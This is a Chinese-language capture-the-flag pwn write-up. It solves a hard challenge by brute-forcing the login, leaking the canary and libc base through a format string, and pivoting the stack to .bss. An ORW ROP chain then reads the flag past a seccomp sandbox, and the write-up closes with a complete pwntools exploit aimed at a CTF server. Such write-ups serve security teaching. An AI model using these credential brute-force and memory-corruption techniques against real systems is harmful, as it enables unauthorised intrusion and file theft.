





# 厄了吗

> 题目类型：pwn
>
> 难度：高（毁灭级难度）
>
> 考点：程序逆向、用户名密码爆破、格式化字符串、Canary绕过、栈迁移、栈沙箱、ORW、ret2libc

## 原型题

[SWPUCTF 2024 秋季新生赛]不可名状的东西

[https://www.nssctf.cn/problem/5999](https://www.nssctf.cn/problem/5999)

## 命题思路

这题以格式化字符串+栈迁移+ORW为核心思路出题，不过为了卡零解，上了一些狠活，利用难度会成倍提升。

## 解题思路

题目给出用户名密码的字典，供爆破账密；题目程序保护状态如下：

```
[*] '/home/dnms/pwn-GCCCTF/PWN-HARD/docker/pwn'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

这里 先爆破账密 还是 先本地调试再写爆破 都可以。可以把爆破的过程拆分出来，利用时直接使用爆破出的账密登录

```PYTHON
from pwn import *
import time

context(os="linux", arch="amd64", log_level="debug")
context.terminal = ["tmux", "splitw", "-h"]

lc = "./docker/pwn"
libc = "./libc.so.6"
libcrypto = "./libcrypto.so.3"
libseccomp = "./libseccomp.so.2"

elf = ELF(lc)
libc = ELF(libc)
libcrypto = ELF(libcrypto)
libseccomp = ELF(libseccomp)

global p
def crash_passwd(lc, host="127.0.0.1", port=10000):
    flag = 0
    with open("user_dict") as fu:
        with open("pwd_dict") as fp:
            for i in fu:
                print(f"Crashing username: {fu}")
                for j in fp:
                    #p = process(lc)
                    p = remote(host, port)
                    time.sleep(0.3)
                    print(f"Crashing passwd: {fp}\n")
                    p.recvuntil(b"exit\n")
                    p.sendline(b"1")
                    # user & pwd end with '\n'
                    p.sendafter(b"User: ", i, timeout=1)
                    p.sendafter(b"Passwd: ", j, timeout=1)
                    if p.recvuntil(b"\n", timeout=1).decode().find("incorrect") is not -1:
                        continue
                    user, pwd = i, j
                    print(f"User crashed: {user}\nPasswd found: {pwd}\n")
                    return user, pwd
```

同时由于账密存储在靶机上的独立文件，我们需要逆向`check_passwd()`，自己手搓一个`users.txt`，以供本地调试。



可以看出来这里直接用了一个MD5算法，`users.txt`存储了用户名和密码哈希值。使用cyberchef工具简单写一个账密本`users.txt`，以便本地调试进入`success()`函数



```python
def login(user, pwd, p):
    p.recvuntil(b"exit\n")
    p.sendline(b"1")
    p.sendafter(b"User: ", user, timeout=1)
    p.sendafter(b"Passwd: ", pwd, timeout=1)

#user, passwd = crash_passwd(lc)
user, passwd = "admin123\n", "admin\n"
p = process(lc)
login(user, passwd, p)
```

进入`success()`函数后是 一个无溢出读 + 一个格式串 + 一个溢出长度0x10的读



格式化串可以泄露Canary + Libc_base，但0x10长度的溢出无法写入我们所需的ROP，因此需要使用栈迁移的手法来获得更长的payload读写空间。具体泄漏点需要自行调试

```python
p.recvuntil(b'\n')
p.sendline(b"%13$p,%3$p")
leaked = p.recv(0x22).decode().split(',')

canary = int(leaked[0], 16)

write_got = int(leaked[1], 16) + 0x8e
write_sym = libc.sym['write']
libc_base = write_got - write_sym
```

栈迁移就是在另一块内存空间内伪造一个和栈结构一致的“伪造栈”。那么应该将栈迁移至哪里呢？

首先要求这块内存空间内部尽可能干净，且应当也拥有 栈空间拥有的 读写权限。程序的.bss段就完美满足了我们的需要



同时由于程序开启沙箱保护，禁用了`execve()`系统调用，无法执行`system()`函数。为了获取flag，我们采用ORW的手法，即`open()`函数打开文件、`read()`函数读取文件内容至内存、`write()`函数将内存里的文件内容打印至标准输出。

以下攻击资源需要自行借助ROPgadget和动态调试程序准备：

```python
pop_rdi = 0x401289
pop_rsi = 0x40128b
pop_rcx = 0x40128d
pop_rdx = 0x40128f
pop_rsp = 0x401291
pop_rbp = 0x401294
leave = 0x4013b5
lea_rax_rbp = 0x40163f # lea rax,[rbp-0x110];before smashing read
ret = 0x40101a

open_func = libc.sym['open'] + libc_base
read_func = libc.sym['read'] + libc_base
write_func = write_got
exit_func = libc.sym['exit'] + libc_base

bss = 0x404200 # 0x4040d0 -> align to 0x404200
```

第一次`read()`操作，我们还无法写入payload，但是可以篡改`rbp`，同时可以改一个位置的ret_addr，我们分析一下`read()`函数附近的代码：

> 恰好read之前会将rax指向rbp-0x110的地址，只需要篡改rbp，即可利用read把payload写到一个有写权限的位置



```python
padding = b'A' * 0x108 + p64(canary)
payload1 = padding + p64(bss+0x110) + p64(lea_rax_rbp)
p.send(payload1)
```

payload1一旦执行，下一次`read()`就会存储至bss处。我们接下来就可以针对性构造payload2。

```python
# 我们期望的 伪造栈 的结构：
# bss:			filename	假装一个字符串变量，使用时提供地址bss即可
# bss+0x8:		canary		bss+0x110要leave至bss+0x10，防止check_fail
# bss+0x10:		rbp -> &(bss+0x10) 要确保下一个rbp前面仍有canary，干脆回环指针
# bss+0x18:		payload2
# ...
# bss+0x108:	canary
# bss+0x110:	rbp -> &(bss)
# bss+0x118:	leave	<main+169>后再执行一次leave，把rsp迁过来，以便ret
```

以下是具体payload2

```python
filename = b'./flag\x00\x00'
payload2 = filename + p64(canary) + p64(bss+0x10) + p64(pop_rdi) + p64(bss) + p64(pop_rsi) + p64(0) + p64(open_func) # open("./flag", 0);
payload2 += p64(pop_rdi) + p64(6) + p64(pop_rsi) + p64(bss+0x200) + p64(pop_rdx) + p64(0x40) + p64(read_func) # read(6, bss+0x200, 0x40)
payload2 += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(bss+0x200) + p64(pop_rdx) + p64(0x40) + p64(write_func)# write(1, bss+0x200, 0x40)
payload2 += p64(pop_rdi) + p64(0) + p64(exit_func)
payload2 = payload2.ljust(0x110-0x8, b'\x00') + p64(canary) + p64(bss+0x10) + p64(leave)

# 此处fd指针并非默认3，需要从3开始尝试，本题fd=6

p.send(payload2)
p.interactive()
```

### exp

```python
from pwn import *
import time

lc = "./docker/pwn"
libc = "./libc.so.6"
libcrypto = "./libcrypto.so.3"
libseccomp = "./libseccomp.so.2"

elf = ELF(lc)
libc = ELF(libc)
libcrypto = ELF(libcrypto)
libseccomp = ELF(libseccomp)

context(os="linux", arch="amd64", log_level="debug")
context.terminal = ["tmux", "splitw", "-h"]

global p
def crash_passwd(lc, host="127.0.0.1", port=10000):
    flag = 0
    with open("user_dict") as fu:
        with open("pwd_dict") as fp:
            for i in fu:
                print(f"Crashing username: {fu}")
                for j in fp:
                    #p = process(lc)
                    #p = gdb.debug(lc, "b success")
                    p = remote(host, port)
                    time.sleep(0.3)
                    print(f"Crashing passwd: {fp}\n")
                    p.recvuntil(b"exit\n")
                    p.sendline(b"1")
                    # user & pwd end with \n''
                    p.sendafter(b"User: ", i, timeout=1)
                    p.sendafter(b"Passwd: ", j, timeout=1)
                    if p.recvuntil(b"\n", timeout=1).decode().find("incorrect") is not -1:
                        continue
                    user, pwd = i, j
                    print(f"User crashed: {user}\nPasswd found: {pwd}\n")
                    return user, pwd

def login(user, pwd, p):
    p.recvuntil(b"exit\n")
    p.sendline(b"1")
    p.sendafter(b"User: ", user, timeout=1)
    p.sendafter(b"Passwd: ", pwd, timeout=1)


#user, passwd = crash_passwd(lc)
user, passwd = "admin123\n", "123qwe\n"
#p = process(lc)
#p = gdb.debug(lc, "b success")

p = remote("node1.anna.nssctf.cn", 28293)

login(user, passwd, p)
#pause()
p.recvuntil(b'\n')

p.sendline(b"%13$p,%3$p") #canary->%13$p, write.got->(%3$p+offset)
leaked = p.recv(0x22).decode().split(',')
pause()

canary = int(leaked[0], 16)
write_got = int(leaked[1], 16) + 0x8e
print(f"Canary found: {hex(canary)}\nwrite@got leaked: {hex(write_got)}")
write_sym = libc.sym['write']
libc_base = write_got - write_sym
print(f"Libc base address leaked: {hex(libc_base)}")

padding = b'A' * 0x108 + p64(canary)

# gadget
pop_rdi = 0x401289
pop_rsi = 0x40128b
pop_rcx = 0x40128d
pop_rdx = 0x40128f
pop_rsp = 0x401291
pop_rbp = 0x401294
leave = 0x4013b5
lea_rax_rbp = 0x40163f # lea rax,[rbp-0x110];before smashing read
ret = 0x40101a

# function maybe need
open_func = libc.sym['open'] + libc_base
read_func = libc.sym['read'] + libc_base
write_func = write_got
exit_func = libc.sym['exit'] + libc_base
#main_func = 0x40164f

bss = 0x404200 # 0x4040d0 -> align to 0x404200

payload1 = padding + p64(bss+0x110) + p64(lea_rax_rbp)
p.send(payload1)
#pause()
filename = b'./flag\x00\x00'
# 此处fd指针并非默认3，需要从3开始尝试，本题fd=6
payload2 = filename + p64(canary) + p64(bss+0x10) + p64(pop_rdi) + p64(bss) + p64(pop_rsi) + p64(0) + p64(open_func) # open("./flag", 0);
payload2 += p64(pop_rdi) + p64(6) + p64(pop_rsi) + p64(bss+0x200) + p64(pop_rdx) + p64(0x40) + p64(read_func) # read(6, bss+0x200, 0x40)
payload2 += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(bss+0x200) + p64(pop_rdx) + p64(0x40) + p64(write_func)# write(1, bss+0x200, 0x40)
payload2 += p64(pop_rdi) + p64(0) + p64(exit_func)
payload2 = payload2.ljust(0x110-0x8, b'\x00') + p64(canary) + p64(bss+0x10) + p64(leave)

p.send(payload2)
#pause()
p.interactive()

# 我们期望的 伪造栈 的结构：
# bss:			filename
# bss+0x8:		canary
# bss+0x10:		rbp -> &(next_stack_chunk)
# bss+0x18:		payload2
# ...
# bss+0x108:	canary
# bss+0x110:	rbp -> &(bss)
```

